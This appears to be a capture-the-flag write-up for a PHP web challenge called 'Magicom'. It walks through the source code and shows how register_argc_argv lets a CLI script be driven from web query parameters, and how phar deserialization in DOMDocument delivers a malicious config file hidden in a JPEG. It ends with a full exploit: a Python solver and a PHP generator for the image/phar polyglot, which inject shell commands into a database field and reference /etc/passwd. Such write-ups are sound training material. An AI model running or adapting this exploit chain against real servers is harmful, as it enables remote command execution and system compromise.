







 <font size='10'>Magicom</font>

XX<sup>th</sup> April 2024

Prepared By: `lordrukie`

Challenge Author(s): `lordrukie`

Difficulty: <font color='orange'>Medium</font>

<br><br>

# Synopsis

- Abusing php `register_argc_argv` to populate `$_SERVER["argv"]` and manipulating command line argument for `cli.php`. The file uses `DOMXPath` which vulnerable to phar deserialization, allowing user to inject configuration file by bypassing file upload and obtain command injection.

## Description

- In need of specialized equipment for their mission, the crew ventures into the seedy underbelly of the black market. With their negotiation skills put to the test, they strike a deal with a shady supplier, exchanging valuable resources for the necessary tools and gear.


## Skills Required

- Understanding of PHP
- Knowledge of PHP config
- Understanding of phar
- Understanding of command injection
- Ability to audit dependencies for uknown vulnurabilities


## Skills Learned

- Learn what php `register_argc_argv` mean
- Learn how to attack missconfigured cli application
- Get a knowledge about phar deserialization within php `DOMXPath`
- Learn how to craft phar payload inside of image

# Enumeration

## Web Application Overview

Application shows 3 navigation, Home, Product, and Add Product.


Product will show all available product in the site


Add Product allow us to add new product


## Analyzing the web source code

If we look at index.php file, we can see all the route for the application. For each route, it will include the file within `routes` directory.

```php
$router->get('/', 'HomeController@index');
$router->get('/home', 'HomeController@index');
$router->get('/product', 'ProductViewController@index');
$router->get('/addProduct', 'AddProductController@index');
$router->post('/addProduct', 'AddProductController@add');
```

Let's take a look for each important route.

### /product

Here the route call index method of `ProductViewController` class.

```php
public function index()
{
    $this->router->view('product', $this->product->get());
}
```
It will render `product` and use `get` method from `ProductModel` to query data.

```php
public function get()
{
    $result = $this->database->query('SELECT title, description, image_url FROM products');
    $products = array();
    
    while ($product = $result->fetch_assoc()) {
        $title = htmlspecialchars($product['title'], ENT_QUOTES, 'UTF-8');
        $description = htmlspecialchars($product['description'], ENT_QUOTES, 'UTF-8');
        $image_url = htmlspecialchars($product['image_url'], ENT_QUOTES, 'UTF-8');
    
        $products[] = array(
            'title' => $title,
            'description' => $description,
            'image_url' => $image_url
        );
    }

    return $products;
}
```


### /addProduct

The GET request will result in the rendering of the `addProduct` view.

```php
public function index()
{
    $this->router->view('addProduct');
}
```

The POST request allows the user to upload their product with three pieces of data: title, description, and an image file

The image file will be handled using `ImageModel`, and its validity will be checked using the `isValid` method. A random filename will be generated and the uploaded image will be stored under the `uploads` directory. If all the checks are successful, the product will be saved into the database to be displayed later.

```php
$image = new ImageModel($_FILES["image"]);

if($image->isValid()) {

    $mimeType = mime_content_type($_FILES["image"]['tmp_name']);
    $extention = explode('/', $mimeType)[1];
    $randomName = bin2hex(random_bytes(8));
    $secureFilename = "$randomName.$extention";

    if(move_uploaded_file($_FILES["image"]["tmp_name"], "uploads/$secureFilename")) {
        $this->product->insert($title, $description, "uploads/$secureFilename");

        header('Location: /addProduct?error=0&message=Product added successfully.');
        exit;
    }
} else {
    header('Location: /addProduct?error=1&message=Not a valid image.');
    exit;
}
```

The `isValid` method from the `ImageModel` is being used to validate whether the user-uploaded file is indeed an image or not.

First, it will check for the file extension, then the MIME type, and lastly the image size. These filters will protect against file upload attacks and ensure that only image files are uploaded.

```php
public function isValid() {

    $allowed_extensions = ["jpeg", "jpg", "png"];
    $file_extension = pathinfo($this->file["name"], PATHINFO_EXTENSION);
    print_r($this->file);
    if (!in_array($file_extension, $allowed_extensions)) {
        return false;
    }

    $allowed_mime_types = ["image/jpeg", "image/jpg", "image/png"];
    $mime_type = mime_content_type($this->file['tmp_name']);
    if (!in_array($mime_type, $allowed_mime_types)) {
        return false;
    }

    if (!getimagesize($this->file['tmp_name'])) {
        return false;
    }

    return true;
}
```
### /info
Just printing phpinfo


## Analyzing the cli source code

We have something interesting here, cli application within `cli` directory named `cli.php`.

This tools are being used to insert initial data into database within `entrypoint.sh` file

```sh
php /www/cli/cli.php -c /www/cli/conf.xml -m import -f /www/products.sql

rm /www/products.sql
```

Let's see that's inside of this file

It will check if the script are run from command line using this code
```php
if (!isset( $_SERVER['argv'], $_SERVER['argc'] ) || !$_SERVER['argc']) {
    die("This script must be run from the command line!");
}
```

If we jump out to end of the code, we can see the feature that can be done with this tools

```php
$mode = getCommandLineValue("--mode", "-m");

if($mode) {
    switch ($mode) {
        case 'import':
            $filename = getCommandLineValue("--filename", "-f");
            if(file_exists($filename)) {
                import($filename, $username, $password, $database);
            } else {
                die("No file imported!");
            }
            break;
        case 'backup':
            backup(generateFilename(), $username, $password, $database);
            break;
        case 'healthcheck':
            healthcheck();
            break;
        default:
            die("Unknown mode specified.");
            break;
        }
}
```

The `getCommandLineValue` function simply search for `longOption` or `shortOption` within `$_SERVER['argv']` and return the value if found.

```php
function getCommandLineValue($longOption, $shortOption) {
    $argv = $_SERVER['argv'] ?? [];

    $longIndex = array_search($longOption, $argv);
    $shortIndex = array_search($shortOption, $argv);
    $index = false;
    $option = '';

    if ($longIndex !== false) {
        $index = $longIndex;
        $option = $argv[$longIndex + 1] ?? null;
    } elseif ($shortIndex !== false) {
        $index = $shortIndex;
        $option = $argv[$shortIndex + 1] ?? null;
    }

    return $option;
}
```

so this file allow us to import, backup, and check health of the application by specifying command line argument `-m` or `--mode` following with the mode you want to use.

Let's analyze each feature within this file.

### import

In import mode, it will search for `--filename` or `-f` flags. If found, then it will check the presence of file using `file_exists` function. If the file are valid, it will then call `import` function.

```php
$filename = getCommandLineValue("--filename", "-f");
if(file_exists($filename)) {
    import($filename, $username, $password, $database);
} else {
    die("No file imported!");
}
```

username, password, and database argument are obtained from this line of code

```php
$username = getConfig("username");
$password = getConfig("password");
$database = getConfig("database");
```

This function will try to search for command line flags `--config` or `-c`. If found, then it will be parsed using `DOMDocument` and `DOMXPath`. It will return specified config value that user input as argument by using XPath query.

```php
function getConfig($name) {

    $configFilename = isConfig(getCommandLineValue("--config", "-c"));

    if ($configFilename) {
        $dbConfig = new DOMDocument();
        $dbConfig->load($configFilename);

        $var = new DOMXPath($dbConfig);
        foreach ($var->query('/config/db[@name="'.$name.'"]') as $var) {
            return $var->getAttribute('value');
        }
        return null;
    }
    return null;
}
```

It uses `isConfig` function to validate user provided file. The function will check if the user provided file was an actual file within the storage by using `file_eists`. With this function, user won't able to use remote file for config.

```php
function isConfig($probableConfig) {
    if (!$probableConfig) {
        return null;
    }
    if (is_dir($probableConfig)) {
        return isConfig($probableConfig.\DIRECTORY_SEPARATOR.'config.xml');
    }

    if (file_exists($probableConfig)) {
        return $probableConfig;
    }
    if (file_exists($probableConfig.'.xml')) {
        return $probableConfig.'.xml';
    }
    return null;
};
```

In the `import` function, application try to use `passthruOrFail` function to import sql data into database with terminal command. Here the username, password, database, and filename are appended directly into the argument.

```php
function import($filename, $username, $password, $database) {
    passthruOrFail("mysql -u$username -p$password $database < $filename");
}
```

`passthruOrFail` simply pass the argument into `passthru` function. Because user input (parsed config) was not sanitized, then command injection can occur if we can control the config data.

```php
function passthruOrFail($command) {
    passthru($command, $status);
    if ($status) {
        exit($status);
    }
}
```

## backup

In backup mode, application will try to generate random filename using `generateFilename` function and pass it as argument for `backup` function. It will then run `passthruOrFail` with config data (username, password, database) as argument. Same with import function, if we can control the config data then we can achieve command injection.

```php
function generateFilename() {
    $timestamp = date("Ymd_His");
    $random = bin2hex(random_bytes(4));
    $filename = "backup_$timestamp" . "_$random.sql";
    return $filename;
}

backup(generateFilename(), $username, $password, $database);

function backup($filename, $username, $password, $database) {
    $backupdir = "/tmp/backup/";
    passthruOrFail("mysqldump -u$username -p$password $database > $backupdir$filename");
}
```

### healthcheck

simply ping the web application and printing their status.s

```php
function healthCheck() {
    $url = 'http://localhost:80/info';

    $headers = get_headers($url);

    $responseCode = intval(substr($headers[0], 9, 3));

    if ($responseCode === 200) {
        echo "[+] Daijobu\n";
    } else {
        echo "[-] Not Daijobu :(\n";
    }
}
```

# Solution

## Finding the vulnerability

So we have analyzed the web & cli appllication and found that injection part may located within cli application (command injection) if we can manipulate config data such as:

```xml
<config>
<db name="username" value="root"/>
<db name="password" value="toor"/>
<db name="database" value="htb; $command #"/>
</config>
```

The first vulnerability came from `$_SERVER['argv']` which unsafe when PHP `register_argc_argv` options are active. This options allows web parameter to registered as  `$_SERVER['argv']`. The query param are splitted with "+" for each argument. For example, inserting `cli.php?arg1+arg2` in web service are the same as accessing cli with `cli.php arg1 arg2`



This options can be detected by comparing challenge's `php.ini` file with default `php.ini` file.

This option are active by default. However the default `php.ini` file are disabling the option. In this challenge, line with `register_argc_argv = Off` are commented so the `register_argc_argv` option will active again.



left (original), right (challenge)



Now we know how to pass command line argument into `cli.php`. But how can we provide valid config file?

Here's the second vulnerability came to play.

The application parse the config file using `DOMDocument` and `DOMXPath`. `DOMDocument` are allowing various schema


including phar...


Combining with the file upload from `/addProduct`, if we can insert phar payload containing config file inside a valid image, then we can access the config file back using `phar://` protocol. Bypassing file upload restriction.

Luckily, there's bunch of tutorial on how to create these. One of there can be seen [here](https://ctftime.org/writeup/22612).

## Exploitation

### Attack Chain

To obtain command injection on the server, we need the following step:
- Create config file with command injection in `database` field
- Insert config file into valid image
- Upload image to the server
- Using phar:// protocol for `filename` option in `cli.php`
- Got code execution!

I've made the solver to automate those steps

solve.py
```python
import requests
from bs4 import BeautifulSoup
import subprocess
import logging

HOST = "http://localhost:1337"

logging.basicConfig(level=logging.INFO)

def generate_payload(command):
    try:
        subprocess.run(["php", "-d", "phar.readonly=0", "gen.php", command], check=True)
        return True
    except subprocess.CalledProcessError as e:
        logging.error(f"Failed to generate payload: {e}")
        return False

def upload_product():
    try:
        with open("image.jpg", 'rb') as file:
            files = {"image": file, "title": (None, "Doom"), "description": (None, "got doomed")}
            response = requests.post(HOST + "/addProduct", files=files)
            if response.status_code == 200:
                return True
    except FileNotFoundError:
        logging.error("File not found.")
    except Exception as e:
        logging.error(f"Upload failed: {e}")
    return False

def get_image():
    try:
        response = requests.get(HOST + "/product")
        soup = BeautifulSoup(response.content, 'html.parser')
        cards = soup.find_all('div', class_='card custom-card')
        latest_image_url = None
        for card in cards:
            img_element = card.find('img', class_='card-img-top')
            if img_element:
                latest_image_url = img_element['src']
        return latest_image_url
    except Exception as e:
        logging.error(f"Failed to retrieve image: {e}")
        return None

def trigger(payload):
    try:
        r = requests.get(HOST + f"/cli/cli.php?+-m+import+-c+phar:///www/{payload}/test.conf+-f+/etc/passwd")
        return r.content.decode()
    except Exception as e:
        logging.error(f"Trigger failed: {e}")
        return None

def exploit():
    try:
        while True:
            command = input("Command: ")
            if command.lower() == "exit":
                break
            if generate_payload(command):
                if upload_product():
                    payload = get_image()
                    if payload:
                        output = trigger(payload)
                        if output:
                            print(output)
                            continue
            print("Failed to execute command")
    except KeyboardInterrupt:
        logging.info("Exiting...")

if __name__ == "__main__":
    exploit()

```

gen.php
```php
<?php

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$command = $_SERVER["argv"][1];

$content = '<config>
<db name="username" value="root"/>
<db name="password" value="rootganteng"/>
<db name="database" value="htb; ' . $command . ' #"/>
</config>';

$oldname = "image.phar";
$newname = "image.jpg";

@unlink($newname);
$phar = new Phar($oldname);
$phar->startBuffering();
$phar->addFromString("test.conf",$content);
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
$phar->stopBuffering();
rename($oldname, $newname);
```

### Getting the flag

Running the solver script will give us command execution.
